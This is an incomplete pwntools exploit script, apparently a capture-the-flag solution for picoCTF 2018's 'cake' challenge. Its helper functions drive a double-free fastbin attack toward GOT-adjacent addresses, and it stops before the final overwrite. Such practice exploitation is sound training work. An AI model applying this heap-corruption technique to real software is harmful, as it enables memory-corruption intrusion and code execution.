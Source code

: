 ```python
#!/usr/bin/env python

from pwn import *
import time

pico = 1

if pico:
	r = remote('2018shell2.picoctf.com', 36903)
else:
	env = {"LD_PRELOAD": os.path.join(os.getcwd(), "./pico32.libc.so.6")}
	r = process("./cake")

time.sleep(3)
r.recv()

def make(name, cost):
    r.sendline('M')
    time.sleep(1)
    r.recv()
    r.sendline(name)
    time.sleep(0.1)
    r.recv()
    r.sendline(str(cost))
    time.sleep(0.1)
    r.recv()

def inspect(num):
    r.sendline('I')
    time.sleep(0.1)
    r.recv()
    r.sendline(str(num))
    time.sleep(0.1)
    ret = r.recvline()
    r.recv()
    return int(ret[20:-1])

def serve(num):
    r.sendline('S')
    time.sleep(0.1)
    r.recv()
    r.sendline(str(num))
    time.sleep(0.1)
    return r.recv()

libc = ELF('./pico32.libc.so.6')
GOT_STRCHR = 0x603040

make("0",0) # id 0
make("1",33) # id 1
make("2",0) # id 2
serve(0)
serve(1)
serve(0)
make("1",0x6030d8) # id 3
make("2",0) # id 4
make("3",0) # id 5
make(p64(0x6030d8), 34) # id 6
serve(3)
serve(4)
serve(3)
make("1", 0x6030e0) # id 7
make("2", 0) # id 8
```